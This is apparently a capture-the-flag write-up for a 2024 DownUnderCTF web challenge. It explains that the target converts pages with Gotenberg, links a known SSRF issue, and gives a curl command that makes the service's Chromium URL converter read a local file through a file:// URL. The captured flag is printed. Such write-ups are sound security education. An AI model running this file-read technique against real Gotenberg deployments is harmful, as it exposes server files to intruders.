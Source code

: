 # hah got em
Solved by **Shroomish**

## Question
Deez nutz\
Hah got em\
...\
Oh by the way I love using my new microservice parsing these arrest reports to PDF.

## Solution
Looking at the provided Dockerfile, the application uses Gotenberg.\
There was a SSRF issue reported https://github.com/gotenberg/gotenberg/issues/261\
We referred their official Dev documentation to learn other path and queries https://gotenberg.dev/

```
curl -X POST "https://web-hah-got-em-20ac16c4b909.2024.ductf.dev/forms/chromium/convert/url" -F "url=file://localhost/etc/flag.txt" -o output.pdf
```

### Flag
`DUCTF{dEeZ_r3GeX_cHeCK5_h4h_g0t_eM}`
